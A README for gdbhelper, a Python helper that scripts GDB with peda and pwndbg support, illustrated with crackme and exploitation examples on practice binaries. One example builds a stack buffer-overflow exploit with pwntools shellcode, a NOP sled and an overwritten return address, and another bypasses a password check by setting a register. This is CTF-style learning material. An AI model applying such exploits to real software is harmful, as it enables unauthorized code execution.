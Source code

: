# gdbhelper
gdbhelper is a lightweight helper class to instrument GDB using Python. It also has minimum support for [peda](https://github.com/longld/peda)
commands and experimental support for [pwndbg](https://github.com/zachriggle/pwndbg).

The reason why I didn't just develop a GDB script is that I was really too lazy to learn the API. Plus I wanted to have
a very simple tool that could "keep" my previous debugging configuration without having to re-set it all. If you're
looking for that too, that's where that tool comes in handy!

## Installation
You can either use it in place or install it with setuptools like this:
```bash
$ sudo python setup.py install
```
If you want to modify it while still using it system-wide, you can use this:
```bash
$ sudo python setup.py develop
```
As the script uses [pwntools](https://github.com/Gallopsled/pwntools)'s "process" to launch GDB in a subprocess with an
interactive shell, you should define aliases accordingly. Here are mine:
```bash
alias pwndbg='echo "source ~/security/pwndbg/gdbinit.py" > ~/.gdbinit && /usr/bin/gdb'
alias peda='echo "source ~/security/peda/peda.py" > ~/.gdbinit && /usr/bin/gdb'
alias gdb='echo "" > ~/.gdbinit && /usr/bin/gdb'
```
This way, when you'll use Peda it will be able to launch it from anywhere on your system.

## Basics
Let's begin by using "crackme1" (32b). After an incredibly hard analysis we saw that `0x8048545` seems interesting
(`strcmp`) so we'll launch our program and break there to see what's going on.
```python
# coding=utf-8


from gdbhelper import Gdb


debug = Gdb("./crackme1")  # (1)
debug.bp("*0x8048545")  # (2)
debug.r("blurp", prompt=True)  # (3)
value = debug.reg("esp")[1]  # (4)
print(debug.x(value, "s"))  # (5)

```
1. We load the binary in GDB (it's not being run yet)
2. We set our breakpoint
3. We run the binary with its argument and inform gdbhelper that we wait for the GDB prompt (because of the BP) before
returning a result
4. We ask for the value of `ESP` (which is the 1st argument of `strcmp`)
5. We print it's value and voilà!

Let's now try with the "crackme2" (64b). After a quick analysis, we've come to that script (which is a nonsense but
that for the sake of the example):
```python
# coding=utf-8


from gdbhelper import Pwndbg


debug = Pwndbg("./crackme2", until="plz! \n")  # (1)
debug.bp("*0x40073f")  # (2)
debug.r()
debug.e("blabla", prompt=True)  # (3)
debug.i()  # (4)
debug.c()  # (5)
r = debug.e("niark", skipbp=True)  # (6) (will also print the debug info)
if "Password" in r:  # (7)
    debug.e("plop", prompt=True)
    debug.ni()  # (8)
    debug.set("$rax", "0")
    debug.c(until="Flag is: ")  # (9)
    print(debug.recv(prompt=True))  # (10)

```
1. This crackme waits for an input on `STDIN` so we tell gdbhelper that, before returning from every `recv`, it needs to
find the string `"plz !\n"`
2. We set our BP and run the program
3. We send our first output, `"blabla"`, and wait for Pwndbg's prompt (due to BP), with the `execute` method (`e` is
simply a short name)
4. As we want to perform multiple operations at that BP, we ask gdbhelper to open an interactive shell (which we quit
either with `^C` or `^D`) with the `interactive` method (`i` is simply a short name)
5. We continue the execution of the program
6. We send our second input (from the script but maybe we did a lot during the interactive session) and tell gdbhelper
to not stop the execution when meeting a BP and to wait for the usual `until` string; This has for effect to stack the
output, meaning that the `r` variable contains all output/debug info since we sent our input
7. If we find the string `"Password"` in `r`, that means we're still not finished (damn! That's hard!)
8. After sending our third input and stopping at the `strcmp` again, we're pissed and just decide to screw up the
crackme by simple stepping and setting `RAX` to `0` to bypass the comparison
9. We now wait for a new string, `"Flag is: "`, to return instead of the usual `"plz! \n"`
10. We print the flag (I don't think that's the good one though)

Let's try to exploit a program now with "exploit1" (32b). No explanation on how to exploit a basic BoF, just how to do
it with gdbhelper almost automatically.
```python
# coding=utf-8


from pwn import *
from gdbhelper import Peda


debug = Peda("./exploit1")
pattern = debug.pattern_create(268)  # (1)
debug.bp("*0x8048488")
debug.r(pattern, prompt=True)
buff = p32(int(debug.reg("esp")[1], 16))
debug.dis(1)  # (2)
debug.c(prompt=True)
offset = debug.pattern_offset(debug.reg("eip")[0][1:].decode("hex")[::-1])  # (3)
bug = "A" * offset + "B"*4 + "C"*(268 - offset - 4)
shellcode = asm(shellcraft.sh())
nop = asm(shellcraft.i386.nop())*(offset - len(shellcode))
bug = shellcode + nop + buff + "C"*(268 - offset - 4)
debug.hb("*%s" % hex(u32(buff)))  # (4)
debug.r("'%s'" % bug, prompt=True)  # (5)
debug.i()  # (6)

```
1. We create a pattern using Peda's `pattern_create` command then we launch the program, get our buffer's address
2. We disable the breakpoint, it won't be needed anymore and continue the execution until a segmentation fault occurs
3. We check the offset of `EIP` using Peda's `pattern_offset` command and then construct our exploit string using Pwntools
4. We set a hardware BP on the address of our buffer to break on our shellcode
5. We relaunch the program with our shellcode and wait for the HB to trigger
6. We use the interactive console to step into the shellcode and watch everything's going well!

You can obviously use all `gdbhelper.Gdb` methods from `gdbhelper.Peda` or `gdbhelper.Pwndbg`. I invite you to discover
all available methods of those three classes with their arguments by yourself. You'll see, the `gdbhelper.Gdb.sigint`
method is incredibly useful sometimes!

## TODO
- [ ] add convenient methods to each helper class (especially to `gdbhelper.Pwndbg`)
- [ ] create more examples
- [ ] integrate this directly to `pwnlib.gdb` if there are positive feedback

##### :exclamation: DO NOT HESITATE TO PARTICIPATE TO THIS PROJECT EITHER BY COMMITING OR BY ASKING FOR FEATURES/ADDING BUG REPORTS/ETC. :exclamation: